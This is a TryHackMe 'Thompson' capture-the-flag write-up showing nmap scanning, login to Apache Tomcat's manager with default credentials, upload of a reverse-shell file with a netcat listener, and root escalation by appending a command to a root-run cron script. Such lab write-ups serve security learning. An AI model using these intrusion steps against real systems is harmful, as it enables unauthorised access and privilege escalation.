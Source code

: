 ```yaml
---
title: TryHackMe - Thompson
author: Bonface
date: 2024-03-28 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - http
  - gobuster
  - ssh
image:
  path: /assets/img/try_hack_me/Easy/Thompson/0.png
  alt: Thompson
---
```


# Thompson
- boot2root machine for FIT and bsides guatemala CTF

**Tasks**
- read `user.tx`t and `root.txt`

### nmap

```sh
nmap -sV -sC -v 10.10.202.39
```

```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
| 256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_ 256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open http Apache Tomcat 8.5.5
| http-methods:
|_ Supported Methods: GET HEAD POST
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### http_8080

` http://10.10.202.39:8080`

![](../assets/img/try_hack_me/Easy/Thompson/1.png)  
On clicking server Status we got a prompt asking us to enter the username and the password.  
I tried “admin:admin” though it was wrong it took me to a page that gave me the default credentials.

username  `tomcat`
password  `s3cret`

Logged in successfully but there as not much in the Server status so i proceeded into the manager App
Here i found this:
![](../assets/img/try_hack_me/Easy/Thompson/2.png)

Here am allowed to upload a file .
I made a reverse shell to get a shell hopefully.
![](../assets/img/try_hack_me/Easy/Thompson/3.png)  

Uploaded it and run `nc`

```sh
nc -nlvp 1234
```
![](../assets/img/try_hack_me/Easy/Thompson/4.png)

### privilege escalation
![](../assets/img/try_hack_me/Easy/Thompson/5.png)  

Here we see a file that executes as root and feeds its output to the text file.    
let's check crontab for more info .  
![](../assets/img/try_hack_me/Easy/Thompson/6.png)  

So this file runs as root and is scheduled .  
We shall add some commands to it .  

```sh
echo “cat /root/root.txt” >> id.sh
```

Now we wait for the root to run the file then we can read the flag from the text file.  
![](../assets/img/try_hack_me/Easy/Thompson/7.png)

